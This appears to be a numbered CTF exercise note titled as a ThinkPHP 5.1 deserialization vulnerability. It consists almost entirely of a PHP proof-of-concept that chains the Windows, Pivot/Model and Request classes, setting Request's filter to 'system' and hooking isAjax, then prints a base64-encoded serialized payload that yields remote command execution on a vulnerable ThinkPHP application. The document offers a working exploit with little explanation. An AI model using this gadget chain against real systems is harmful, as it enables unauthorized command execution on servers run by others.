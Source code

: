 
# 274(Thinkphp5.1反序列化漏洞)
poc:
```php
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["lin"=>["calc.exe","calc"]];
        $this->data = ["lin"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system"; //PHP函数
    protected $config = [
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',  
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>'cys']; //PHP函数的参数
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}


namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```
